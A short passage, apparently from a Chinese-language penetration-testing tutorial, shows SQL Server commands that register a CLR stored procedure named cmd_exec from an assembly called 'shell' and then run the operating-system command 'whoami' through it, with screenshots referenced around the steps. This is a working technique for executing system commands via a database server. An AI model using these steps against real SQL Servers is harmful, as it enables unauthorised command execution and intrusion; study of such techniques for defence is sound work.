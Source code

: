 ![image.png](assets/1706232584-dc07f031806dde9cb691eef4b51d4d76.png)  
使用以下命令创建过程

```php
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [shell].[StoredProcedures].[cmd_exec];
GO
```

执行命令即可

```php
cmd_exec 'whoami'
```

![image.png](assets/1706232584-209329aee3d96225f1f71775efc0796c.png)  
尝试使用命令行来添加 clr，首先删除刚添加的程序集和过程
